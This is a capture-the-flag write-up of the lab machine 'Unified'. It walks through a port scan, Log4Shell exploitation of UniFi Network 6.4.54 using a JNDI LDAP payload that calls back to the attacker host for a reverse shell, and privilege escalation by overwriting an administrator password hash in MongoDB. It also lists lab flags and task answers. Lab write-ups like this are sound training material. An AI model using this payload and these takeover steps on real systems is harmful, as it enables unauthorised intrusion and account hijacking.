

# Unified

## ip

target: 10.129.96.149

attker: 10.10.15.248

## I. Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.96.149
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 11:54 EST
Nmap scan report for 10.129.96.149
Host is up (0.30s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
8443/tcp open  ssl/nagios-nsca Nagios NSCA
8843/tcp open  ssl/unknown
8880/tcp open  cddbp-alt?
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 258.42 seconds

```

port 8443: Unifi Network 6.4.54

## [CVE-2021-44228: Log4jUnifi](https://github.com/puzzlepeaches/Log4jUnifi)

Unifi Network 6.4.54 is vulnerable to Log4Shell

poc: <https://github.com/puzzlepeaches/Log4jUnifi>.

```bash
┌──(log4junifi)─(kali㉿kali)-[~/Documents/tools/Log4jUnifi]
└─$ python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.15.248 -p 4242
[*] Starting malicous JNDI Server
{"username": "${jndi:ldap://10.10.15.248:1389/o=tomcat}", "password": "log4j", "remember": "${jndi:ldap://10.10.15.248:1389/o=tomcat}", "strict":true}
[*] Firing payload!
[*] Check for a callback!
```

listening port:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4242                                   
listening on [any] 4242 ...
10.129.96.149: inverse host lookup failed: No address associated with name
connect to [10.10.15.248] from (UNKNOWN) [10.129.96.149] 33226
whoami
unifi
```

## user flag

```bash
whoami
unifi
cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

## privilege escalation via mongodb

find mongodb:

```bash
ps -aux | grep mongo
unifi         67  0.4  4.1 1101692 84852 ?       Sl   04:18   0:18 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
```

connect to mongodb:

```bash
mongo mongodb://127.0.0.1:27117
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117
MongoDB server version: 3.6.3
```

default db for unify network is `ace`:

```bash
(remote) unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",

```

`$6$` in `x_shadow` of administrator is the identifier for the `SHA-512` hasing algorithm.

we can create a new hashed password and update database:

```bash
└─$ mkpasswd -m sha-512 Admin@1234  
$6$QN3QPrrxL4cyhvKu$86MTWI1RqHwubyersFpLpsWllq.poOdWV8FNma1C5TuJGX7y6ZVsa43ZFfkrXZjIZ8COPE.4ysaVgzs3v/odh/
```

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id": 
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$QN3QPrrxL4cyhvKu$86MTWI1RqHwubyersFpLpsWllq.poOdWV8FNma1C5TuJGX7y6ZVsa43ZFfkrXZjIZ8COPE.4ysaVgzs3v/odh/"}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

login as administrator with changed password, in the settings, we can find root password:



## root flag

```bash
┌──(log4junifi)─(kali㉿kali)-[~/Documents/tools/Log4jUnifi]
└─$ ssh root@10.129.96.149               
The authenticity of host '10.129.96.149 (10.129.96.149)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.96.149' (ED25519) to the list of known hosts.
root@10.129.96.149's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


root@unified:~# cat /root/root.txt
e50bc93c75b634e4b272d2f771c33681
root@unified:~# 

```

## Task

Task 1: Which are the first four open ports?: `22,6789,8080,8443`

Task 2: What is the title of the software that is running running on port 8443?: `UniFi Network`

Task 3: What is the version of the software that is running?: `6.4.54`

Task 4: What is the CVE for the identified vulnerability?: `CVE-2021-44228`

Task 5: What protocol does JNDI leverage in the injection?: `LDAP`

Task 6: What tool do we use to intercept the traffic, indicating the attack was successful?: `tcpdump`

Task 7: What port do we need to inspect intercepted traffic for?: `389`

Task 8: What port is the MongoDB service running on?: `27117`

Task 9: What is the default database name for UniFi applications?: `ace`

Task 10: What is the function we use to enumerate users within the database in MongoDB?: `db.admin.find()`

Task 11: What is the function we use to update users within the database in MongoDB?: `db.admin.update()`

Task 12: What is the password for the root user?: `NotACrackablePassword4U2022`

Submit user flag: done

Submit root flag: done

## References

<https://github.com/puzzlepeaches/Log4jUnifi>

<https://tblocks.com/how-to-prevent-a-log4j-jndi-attack/>

<https://www.tenable.com/blog/cve-2021-44228-proof-of-concept-for-critical-apache-log4j-remote-code-execution-vulnerability>
